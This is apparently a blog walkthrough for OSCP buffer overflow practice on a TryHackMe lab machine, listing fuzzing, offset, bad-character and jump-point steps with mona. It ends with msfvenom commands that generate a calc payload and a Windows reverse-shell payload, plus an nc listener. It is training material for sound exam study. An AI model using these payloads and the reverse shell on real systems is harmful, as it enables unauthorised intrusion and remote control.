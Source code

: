 ```yaml
---
title: "Easy OSCP Bufferoverflow Preparation"
description: "Easy, simple yet effective and working OSCP Buffer Overflow preparation"
date: 2020-11-21
categories: [PoC]
tags: [windows, oscp, exploit, exploit development, buffer overflow]
pin: false
math: true
mermaid: true
image:
  path: "/assets/img/oscp_bufferoverflow/feature.png"
  alt: "OSCP Buffer Overflow Preparation"
---
```


For preparing OSCP Buffer Overflow, you just need a simple script that can fuzz and send buffer. That's it. You don't need to know a lot about python scripting nor complicated stuff. This is the most effective way and time efficient way. If you practice enough, you can beat buffer overflow machine in just 30 minutes. So you can have lots of time for the other 4 machines. If you still need help, feel free to reach out to me on twitter.

Free TryHackMe Room: [TryHackMe/bufferoverflow](https://tryhackme.com/room/bufferoverflowprep)

Thanks to Tib3rius for this awesome tryhackme room. 

Here is the link for all the scripts: [hum4nG0D/OSCP_Bufferoverflow_Prep](https://github.com/hum4nG0D/OSCP_Bufferovrflw_Prep)

I will take overflow1 from THM bufferoverflow room as an example. So fire up the machine and then connect. You will need to do `Immunity > Debug > restart > play` for each step.

```
> xfreerdp /u:admin /p:password /cert:ignore /v:192.168.10.10
  
> git clone https://github.com/hum4nG0D/OSCP_Bufferovrflw_Prep.git
```

<br>

### 01 Fuzzing

```c++
> ./01-fuzz.py
```

Press `Ctrl + C` after the application crushed. Note down the byte number. (Example: Crushed at 2000)

<br>

### 02 Finding Offset

```c++
> msf-pattern_create -l 2000

> ./02-offset.py
```

At this point, I'm assuming you have Mona setup. 

```c++
> !mona findmsp -distance 2000
```

Find EIP normal pattern. (Example: EIP contains normal pattern : 0x42987857 (offset 1876))

<br>

### 03 Controlling EIP

```c++
> ./03-eip.py
```

You should see `424242` for EIP.

<br>

### 04 Finding Bad Characters

Setting up mona working directory:

```c++
> !mona config -set workingfolder c:\mona\%p
```

![Mona Working Directory](/assets/img/oscp_bufferoverflow/workingdir.png)

<br>

Generating byte array:

```c++
> !mona bytearray -b "\x00"
```

![Generating Bytearray - Mona](/assets/img/oscp_bufferoverflow/bytearray.png)

<br>

Running the script:

```c++
> ./04-badchar.py

> !mona compare -f C:\mona\oscp\bytearray.bin -a 0321FF88
```

Generating byte array with bad characters removed. Update the script and run again until you see 'Unmodified' status in mona memory comparison results.

```c++
> !mona bytearray -b "\x00\x0d"

> ./04-badchar.py

> !mona compare -f C:\mona\oscp\bytearray.bin -a 03B2FF88
```

![Unmodified](/assets/img/oscp_bufferoverflow/unmodified.png)

<br>

### 05 Finding a Jump Point

Replace the bad characters with what you find:

```c++
> !mona jmp -r esp -cpb "\x00\x0d"
```

Set the break point by entering the pointer address and pressing `F2`.

![Break point](/assets/img/oscp_bufferoverflow/pointer.png)

<br>

Make sure to edit the script and add the pointer address in reverse order. Then run the script.

```c++
> ./05-pointer.py
```

If the pointer address stop at EIP. You are good to go.

<br>

### 06 Popping Calculator

Again, don't forget to replace with the bad characters that you find:

```c++
> msfvenom -p windows/exec CMD="C:\windows\system32\calc.exe" -b '\x00\x0d' -f c

> ./06-calc.py
```

After successfully popping the calculator app, next step is to get a shell.

```c++
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.11 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0d"

> nc -lvnp 443

> ./07-exploit.py
```

And that's it. You should be able to get a shell now. 